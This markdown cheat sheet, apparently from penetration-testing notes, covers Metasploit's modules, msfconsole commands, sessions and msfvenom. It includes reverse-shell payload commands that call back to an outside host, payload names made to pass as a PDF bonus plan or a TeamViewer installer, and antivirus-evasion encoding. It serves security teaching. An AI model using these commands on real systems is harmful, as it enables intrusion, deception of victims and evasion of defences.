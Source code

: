 # Metasploit

The `Metasploit Project` is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute the exploit code. This exploit code can be custom-made by the user or taken from a database containing the latest already discovered and modularized exploits. The `Metasploit Framework` includes a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. At its core, the `Metasploit Project` is a collection of commonly used tools that provide a complete environment for penetration testing and exploit development. Files usually located at `/usr/share/metasploit-framework`.

* **What is MS Module?** A module is a piece of software that the Metasploit Framework uses to perform a task, such as exploiting or scanning a target. A module can be an exploit module, auxiliary module, or post-exploitation module.

## Architecture

1. **Auxiliary** - Any supporting module, such as scanners, crawlers and fuzzers.
2. **Encoders** - Will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.
3. **Evasion** - While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software. On the other hand, “evasion” modules will try that, with more or less success.
4. **Exploits** - Exploits, neatly organized by target system.
5. **NOPs** - `(No Operation code)` Keep the payload sizes consistent across exploit attempts.
6. **Payloads** - Payloads are codes that will run on the target system.
7. **Post** - Post modules would be useful in post-exploitation.

## Useful MSFconsole Commands

* **Specific Search**

```bash
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

* **Get more info about module**

```bash
info
```

* **MSF - Permanent Target Specification**

```bash
msf6 exploit(windows/smb/amogus) > setg RHOSTS 13.13.13.13
```

* **Show and Set Target for exploit**

```bash
msf6 exploit(windows/browser/goose) > show targets
...
msf6 exploit(windows/browser/goose) > set target 3
```

* **Searching for Specific Payload**

```bash
msf6 exploit(windows/smb/goose) > grep meterpreter grep reverse_tcp show payloads
```

* **Use Local Exploit Suggester**

```bash
msf6 > search local exploit suggester
```

## MSFvenom

**Msfvenom is a tool that is part of the Metasploit framework and it is a command line tool for generating different types of payloads for exploiting.** In addition to providing a payload with flexible delivery options, MSFvenom also allows us to `encrypt & encode` payloads to bypass common anti-virus detection signatures.

* **List Payloads**

```bash
msfvenom -l payloads
```

* **Building a Stageless Payload for Linux**

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f elf > createbackup.elf
```

* **Building a Stageless Payload for Windows**

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=13.13.13.13 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

### Staged vs Stageless Payloads

<mark style="color:blue;">**`Staged`**</mark>** payloads create a way for us to send over more components of our attack.** So if more simply, the whole payload has few stages, first to get connection and others to load additional programs

<mark style="color:blue;">**`Stageless`**</mark>** payloads do not have a stage.** So all payload and programs are loaded at first time.

## Meterpreter

`The Meterpreter` payload is a specific type of multi-faceted payload that uses `DLL injection` to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes. Meterpreter resides completely in the memory of the remote host and leaves no traces on the hard drive, making it very difficult to detect with conventional forensic techniques.

## Encoder

* **Generating Payload - With Encoding**

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

* **List Encoders**

```bash
msf6 exploit(windows/smb/goose) > show encoders
```

* **MSF - VirusTotal**

```bash
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

## Sessions

* **Listing Active Sessions**

```bash
msf6 exploit(windows/smb/goose) > sessions
```

* **Interacting with a Session**

```bash
msf6 exploit(windows/smb/goose) > sessions -i 1
```

* **Backgrounding session**

```bash
meterpreter > background
OR
Ctrl+Z
OR
meterpreter > bg
```

* **Killing session**

```bash
msf6 exploit(windows/smb/goose) > sessions -k 1
```

* **Listing Running Jobs**

```bash
msf6 exploit(multi/handler) > jobs -l
```

* **Run an Exploit as a Background Job**

```bash
msf6 exploit(multi/handler) > exploit -j
```

***
